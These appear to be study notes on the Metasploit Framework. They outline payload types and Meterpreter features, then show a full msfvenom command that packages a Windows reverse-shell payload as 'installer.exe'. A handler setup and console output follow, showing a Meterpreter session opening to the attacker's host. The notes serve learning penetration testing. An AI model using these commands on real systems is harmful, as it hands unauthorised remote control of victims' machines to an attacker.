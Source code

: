 ### Metasploit Framework

#### Modes

- Exploit: taking advantage of a flow in the target
- Payload: making the target do what we want it to
    - Bind shell to arbitrary port: Shell listener on ATTAKCER's computer TCP ports
    - Reverse shell: Target will connect back to attacker listening on a specific port
    - Win VNC Server DLL Inject: Insert VNC process as a DLL into vulnerable process, letting attackers control the target with GUI
    - Create local admin user: Create local admin user with password specified by attackers
    - Meterpreter: General payload for Windows.
        1. Run only on memory.
        2. Run inside an exploited process.
        3. Having useful commands with it.
        4. Loads module dynamically after execution.
- Auxiliary modules: misc tools including scanning
- Post module: Post-exploitation

#### Merterpreter

Features:

- Display sytem information
- Interact with file system: `cd`, `ls`, `upload`, `download`
- Interact with processes on target
    - `execute`: Run a process
    - `kill`: Kill a process
    - `ps`: List processes
- Use TLS when communicate

#### MsfVenom

- Converts Metasploit payload into standalone file (.exe, PowerShell script, JAR file, and etc)

EXE format, x86 architecture, Windows, `installer.exe`

```
[ATTACKER]$ msfvenom -p windows/meterpreter/reverse_tcp -f exe -a x86 --platform windows LHOST=172.16.0.6 LPORT=4444 -o installer.exe
No encoder or badchars specified, outputting raw payload
Payload size: 341 bytes
Final size of exe file: 73802 bytes
Saved as: installer.exe
$ file installer.exe
installer.exe: PE32 executable (GUI) Intel 80386, for MS Windows
[ATTAKCER]$ msfconsole -qx "use exploit/multi/handler; set PAYLOAD windows/meterpreter/reverse_tcp; set LPORT 4444; set LHOST 0.0.0.0; exploit"
[*] Starting persistent handler(s)...
------------------------------------------------
[VICTIM] RUN installer.exe
------------------------------------------------
[ATTAKCER]$
[*] Started reverse TCP handler on 0.0.0.0:4444
[*] Sending stage (180291 bytes) to 172.16.0.249
[*] Meterpreter session 1 opened (172.16.0.6:4444 -> 172.16.0.249:2820) at 2020-01-16
13:29:41 -0500
meterpreter >
```
